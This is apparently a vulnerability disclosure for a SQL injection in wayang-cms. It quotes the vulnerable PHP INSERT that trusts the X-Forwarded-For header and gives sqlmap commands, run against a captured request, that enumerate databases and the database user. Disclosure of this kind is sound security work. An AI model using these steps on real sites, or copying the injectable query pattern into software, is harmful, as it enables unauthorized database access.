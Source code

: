 wayang-cms SQL injection vulnerability
---
### 1.wayang-cms official download address
Github official download，[wayang-cms](https://github.com/ketutd/wayang-cms)
### 2.Build a recurring environment
Download and install phpStudy, download wayang-cms and copy all files inside to phpStudy's web directory, connect to mysql and create a new database wayang-cms, start Apache to access `http://127.0.0.1/wy_install/` set up installation. After the installation is complete, import cms.sql in wy_install into the database, and the successful operation is as follows
![](https://lowliness9.github.io/post-images/1605356351107.png)
### 3.Vulnerability analysis
The reason for the vulnerability is that the system did not perform any security verification on the visitor's IP address when recording the visitor's IP, and directly spliced the data passed by the user into the SQL statement for execution. The location of the vulnerability is in lines 8 to 10 of `wy_controlls/wy_side_visitor.php`. In line 8 of the code, the IP address, browser, time, etc. of the user accessing the system are spliced with SQL statements using the `Insert` keyword. The code uses the ip() method to obtain the visitor's IP address.
![](https://lowliness9.github.io/post-images/1605352424803.png)
Locate the file of the ip() method to view the specific implementation. This method is located in `wy_controlls/wy_side_visitor.php`. You can see through the code that if there are fields such as X-Forwarded-For in the HTTP request header, it will be taken directly from the HTTP request header Value and return.
![](https://lowliness9.github.io/post-images/1605352606597.png)
Attackers can submit dirty data for malicious SQL injection.
```php
$queryi="INSERT INTO `wy_visitor`(`visitor_ipaddress`, `visitor_user_agent`, `visitor_date`, `visitor_online`, `visitor_online_status`) 
  VALUES ('".ip()."','".$browser."',CURDATE(),CURRENT_TIMESTAMP,1) ON DUPLICATE KEY UPDATE `visitor_online`=CURRENT_TIMESTAMP, `visitor_online_status`=1";
$row=$conn->query($queryi);
```
### 4.Vulnerability proof
The tools used are sqlmap and burpsuite. Visit the homepage of the website and capture the package, and add the X-Forwarded-For: 8.8.8.8 field, and add the \* sign after 8.8.8.8 for the purpose of allowing sqlmap to identify the injection point.
![](https://lowliness9.github.io/post-images/1605354299986.png)
Save the data package as vul.txt and use sqlmap to verify, execute the following command.
```
python2 sqlmap.py -r vul.txt --batch -v 3 --risk 3 --level 5 
```
![](https://lowliness9.github.io/post-images/1605354487105.png)
Try to get the database name of the system
```
python2 sqlmap.py -r vul.txt --batch -v 3 --risk 3 --level 5 --dbs
```
![](https://lowliness9.github.io/post-images/1605354592521.png)
Try to get the current user of the database
```
python2 sqlmap.py -r vul.txt --batch -v 3 --risk 3 --level 5 --current-user
```
![](https://lowliness9.github.io/post-images/1605355125688.png)
It is found through testing that the vulnerability exists and can be exploited.

